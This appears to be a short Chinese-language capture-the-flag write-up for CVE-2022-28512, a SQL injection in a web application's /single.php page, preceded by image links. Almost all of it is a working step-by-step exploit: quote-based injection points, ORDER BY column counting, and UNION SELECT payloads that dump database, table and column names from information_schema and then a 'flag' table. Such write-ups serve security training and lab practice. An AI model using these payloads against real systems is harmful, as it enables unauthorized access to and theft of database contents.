








# CVE-2022-28512

访问/single.php
抓包

1'报错,加上%23显示正常,判断闭合符为'
1' order by 9%23,列数为10时报错,则列数为9

-1' union select 1,2,3,4,5,6,7,8,9%23
回显位为2,3,4,7,8

首先爆库:
-1' union select 1,database(),3,group_concat(schema_name),5,6,7,8,9 from information_schema.schemata%23

报表:
-1' union select 1,database(),3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()%23

爆字段:
-1' union select 1,database(),3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_name=flag%23

-1' union select 1,database(),3,group_concat(flag),5,6,7,8,9 from flag%23

